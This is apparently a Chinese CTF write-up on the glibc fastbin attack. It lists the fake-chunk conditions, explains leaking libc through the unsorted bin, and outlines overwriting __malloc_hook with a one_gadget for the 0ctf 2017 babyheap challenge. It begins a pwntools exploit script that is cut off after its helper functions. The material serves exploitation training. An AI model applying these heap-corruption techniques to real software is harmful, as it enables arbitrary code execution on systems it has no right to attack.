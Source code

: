 `fastbin`方法流程比较简单，即通过某种手段能够控制`fastbin`中的`chunk`的`fd`指针时，将其指向一个想要往其写入数据的地方，这样再次`malloc`这个大小的`chunk`的时候就可以将这个地方分配为`chunk`，达到任意地址写的效果。但是条件如下：

- fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- **fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。**
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

要注意，被指向的地方的`chunk header`中的`size`必须满足`fastbin`的要求，即大小和`fastbin`中指向该`fake chunk`的`chunk`大小相同。若无法直接找到，可以利用地址偏移一些来寻找，也可以借助工具，比如`pwndbg`中可以使用`find_fast_chunk addr`来寻找一个可以覆盖掉`addr`地址的`chunk`。

例题是0ctf_2017_nanyheap：

整体思路是使用`unsort bin`泄露`main_arena`（`unsort bin`在只有一个`chunk`的时候`fd`和`bk`都指向`main_arena`的某个固定偏移处），再通过`main_arena`计算偏移得到`libc`和其他函数地址。

之后使用`fastbin attack`来向`__malloc_hook`中写入`one_gadget`算出来的`gadget`即可。注意，本来`malloc_hook`前是没有明显的可以分配的`fastbin`大小的`chunk`的，但是可以通过小部分偏移来得到刚好可以覆盖掉`__malloc_hook`的`chunk`，此处在`pwngdb`使用命令`find_fast_chunk &__malloc_hook`即可。

```python
# value
# size
# pointer -> malloc(size)
from pwn import *
from LibcSearcher import *

filename = './0ctf_2017_babyheap'
context(log_level='debug')
local = 1
elf = ELF(filename)
# libc = ELF('./libc.so.6')
# libc = ELF('/home/ltfall/Desktop/pwn/buuctf_libc/ubuntu16_64/libc-2.23.so')

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', 25212)

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

def allocate(size):
    sh.sendlineafter(': ', '1')
    sh.sendlineafter(': ', str(size))

def fill(index, size, content):
    sh.sendlineafter(': ', '2')
    sh.sendlineafter(': ', str(index))
    sh.sendlineafter(': ', str(size))
    sh.sendafter(': ', content)

def free(index):
    sh.sendlineafter(': ', '3')
    sh.sendlineafter(': ', str(index))

def dump(index):
    sh.sendlineafter(': ', '4')
    sh.sendlineafter(': ', str(index))

# 首先申请三个0x80的chunk，大概思路是先free第1个chunk，然后通过第0个chunk溢出修改第1个chunk的head，让OS误认为chunk1的大小是chunk1+chunk2
# 此时申请回chunk1，但是chunk1此时就是chunk1+chunk2两个块重合了，然后因为题目里面是calloc，因此将变成0的恢复，然后free掉chunk2，chunk2将会被添加到unsortbin
```